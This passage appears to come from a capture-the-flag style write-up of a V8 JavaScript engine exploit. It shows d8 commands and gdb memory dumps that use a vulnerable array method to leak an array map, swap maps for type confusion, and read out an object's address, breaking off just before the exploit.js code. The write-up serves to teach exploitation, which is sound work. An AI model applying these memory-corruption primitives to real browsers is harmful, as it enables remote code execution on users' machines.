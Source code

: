     
    
    d8> ftoi(arr.GetLastElement()).toString(16);
    "80406e908241909"   <-- low word is map, high is props
    d8> ^C
    Thread 1 "d8" received signal SIGINT, Interrupt.
    __GI___libc_read (nbytes=0x400, buf=0x55a7e1620250, fd=0x0) at ../sysdeps/unix/sysv/linux/read.c:26
    26      ../sysdeps/unix/sysv/linux/read.c: No such file or directory.
    gef➤  x/4xw 0x3ecd080889b9-1
    0x3ecd080889b8: 0x08241909      0x080406e9      0x080889a9      0x00000002
    

I’ll save that, as I’ll need it:

    
    
    d8> var float_map = ftoi(arr.GetLastElement());
    undefined
    

I don’t have a good way to leak a map of an array with a single object in it
(remember the vulnerable function is only for arrays). But through some
analysis in `gdb`, it looks like that maps is always 0x50 bytes past the map
for `[1.1]`. Knowing that, I can change the map, and then put the object I’m
targeting into this array:

    
    
    d8> arr.SetLastElement(itof(float_map+0x50n));
    undefined
    d8> arr[0] = obj;
    {findme: 1}
    

The elements address doesn’t change, and the object address pointer now
overwrites the high bytes of the old 1.1 value:

    
    
    d8> ^C
    Thread 1 "d8" received signal SIGINT, Interrupt.
    __GI___libc_read (nbytes=0x400, buf=0x55a7e1620250, fd=0x0) at ../sysdeps/unix/sysv/linux/read.c:26
    26      in ../sysdeps/unix/sysv/linux/read.c
    gef➤  x/8xw 0x3ecd080889a9-1
    0x3ecd080889a8: 0x08040a3d      0x00000002      0x0808823d      0x3ff19999  <-- FixedArray: map, len, pointer, garbage
    0x3ecd080889b8: 0x08241959      0x080406e9      0x080889a9      0x00000002  <-- JSArray: map, props, elements, len
    

I’ll set the map back to float, and then read that value out:

    
    
    d8> arr.SetLastElement(itof(float_map))
    undefined
    d8> ftoi(arr).toString(16)
    "3ff199990808823d"
    

I’ll add the following to `exploit.js`:
